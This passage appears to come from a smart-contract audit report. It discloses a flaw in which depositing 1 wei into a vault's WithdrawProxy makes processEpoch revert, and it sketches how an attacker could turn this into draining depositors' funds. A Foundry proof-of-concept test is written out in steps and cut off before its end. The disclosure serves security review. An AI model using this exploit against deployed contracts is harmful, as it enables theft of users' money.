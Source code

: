 As result, nothing will be send to WithdrawProxy where shares were minted for users. The just lost money.

Also this attack can be improved to drain users funds to attacker. 
Attacker should be liquidity provider. And he can initiate next redeem for next epoch, then deposit to new WithdrawProxy enough amount to get new shares. And call `processEpoch` which will send to the vault amount, that was not sent to previous attacked WithdrawProxy, as well. So attacker will take those funds.
## Impact
Funds of PublicVault depositors are stolen.
## Code Snippet
This is simple test that shows how external actor can corrupt WithdrawProxy.

```solidity
function testWithdrawProxyDdos() public {
    Dummy721 nft = new Dummy721();
    address tokenContract = address(nft);
    uint256 tokenId = uint256(1);

    address publicVault = _createPublicVault({
      strategist: strategistOne,
      delegate: strategistTwo,
      epochLength: 14 days
    });

    _lendToVault(
      Lender({addr: address(1), amountToLend: 50 ether}),
      publicVault
    );

    uint256 collateralId = tokenContract.computeId(tokenId);

    uint256 vaultTokenBalance = IERC20(publicVault).balanceOf(address(1));
    console.log("balance: ", vaultTokenBalance);

    // _signalWithdrawAtFutureEpoch(address(1), publicVault, uint64(1));
    _signalWithdraw(address(1), publicVault);

    address withdrawProxy = PublicVault(publicVault).withdrawProxies(
      PublicVault(publicVault).getCurrentEpoch()
    );

    vm.deal(address(2), 2);
    vm.startPrank(address(2));
      WETH9.deposit{value: 2}();
      //this we need to make share calculation not fail with divide by 0
      WETH9.transferFrom(address(2), withdrawProxy, 1);
      WETH9.approve(withdrawProxy, 1);
      
      //deposit 1 wei to make WithdrawProxy.totalSupply > PublicVault.balanceOf(address(PublicVault))
      //so processEpoch can't burn more shares
      WithdrawProxy(withdrawProxy).deposit(1, address(2));
    vm.stopPrank();

    assertEq(vaultTokenBalance, IERC20(withdrawProxy).balanceOf(address(1)));

    vm.warp(block.timestamp + 15 days);

    //processEpoch fails, because it can't burn more amount of shares, that was sent to PublicVault
    vm.expectRevert();
    PublicVault(publicVault).processEpoch();
```
